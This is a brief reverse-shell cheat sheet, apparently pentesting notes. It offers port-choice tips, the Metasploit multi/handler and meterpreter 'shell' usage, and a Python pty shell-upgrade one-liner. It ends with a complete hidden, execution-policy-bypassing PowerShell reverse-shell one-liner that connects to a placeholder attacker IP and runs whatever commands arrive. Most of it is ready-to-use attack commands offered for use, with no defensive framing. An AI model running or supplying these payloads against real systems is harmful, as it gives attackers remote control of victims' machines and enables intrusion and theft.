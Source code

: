 # Gold Rule #
  * Only use open ports to do your rev shell. Firewalls may prevent other ports
  * If a shell is not stable especially php web shells try using metasploit /multi/handler

# Meterpreter #
"shell" command to drop into a system shell after meterpreter makes a connection

# Upgrade Linux Shell with Python #
 * python -c 'import pty; pty.spawn("/bin/bash")'

# Windows #
1. Powershell
  * powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("IP",<PORT>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

